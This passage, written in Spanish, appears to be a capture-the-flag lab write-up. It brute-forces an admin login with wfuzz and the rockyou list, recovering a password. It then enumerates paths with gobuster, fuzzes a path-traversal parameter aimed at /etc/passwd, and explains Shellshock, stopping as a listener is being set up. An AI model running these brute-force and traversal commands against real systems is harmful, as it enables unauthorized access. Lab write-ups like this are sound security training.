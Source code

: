 Biendo que no es vulnerable a inyecciones **SQL** probraremos un ataque de fuerza bruta:
```bash
wfuzz -c --hl=69 -H "Cookie: PHPSESSID=itqe4j2g66v5bchb40lsl3dmuj" -d "username=admin&password=FUZZ" -w /usr/share/wordlists/rockyou.txt -t 200 http://172.17.0.2/
```

Tenemos la posible contrasena del usuario admin:
```bash
000013634:   200        0 L      5 W        119 Ch      "christelle" 
```

Si nos conectamos con estas credenciales tendremos acceso:
```bash
username: amdin
password: christelle
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.17.0.2 -c "PHPSESSID=itqe4j2g66v5bchb40lsl3dmuj" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

**Hallazgos Relevantes:**
	No reporta nada

### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.17.0.2/pruebasUltraSecretas/ -c "PHPSESSID=itqe4j2g66v5bchb40lsl3dmuj" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,php.back,backup,sh,txt,html,js,java,py
```

- **Hallazgos**:
```bash
/index.php            (Status: 200) [Size: 1873]
/assets               (Status: 301) [Size: 330] [--> http://172.17.0.2/pruebasUltraSecretas/assets/
/post.php             (Status: 200) [Size: 88]
/helper.php           (Status: 200) [Size: 0]]
```

Primero veficicamos si el archvio principal usa un parametro bajo la consulta **php**
```bash
wfuzz -c -t 50 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Cookie: PHPSESSID=itqe4j2g66v5bchb40lsl3dmuj" -u "http://172.17.0.2/pruebasUltraSecretas/index.php?FUZZ=../../../etc/passwd" --hl=44
```

Como no reporta nada, Procedemos a verificar ahora el siguiente que en la web nos idica lo siguiente:
```bash
User-Agent almacenado en el log.
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que sabemos que es vulnerable a **shellSock** realizaremos un ataque:
- Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar programas maliciosos, etc.
- La vulnerabilidad Shellshock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de shell. El problema radica en la forma en que Bash maneja las variables de entorno. Los atacantes pueden inyectar código malicioso en estas variables de entorno, las cuales Bash ejecuta sin cuestionar su origen o contenido
### Ejecucion del Ataque
Para verficar que si es vulnerable nos ponemos en escuhca por el puerto 80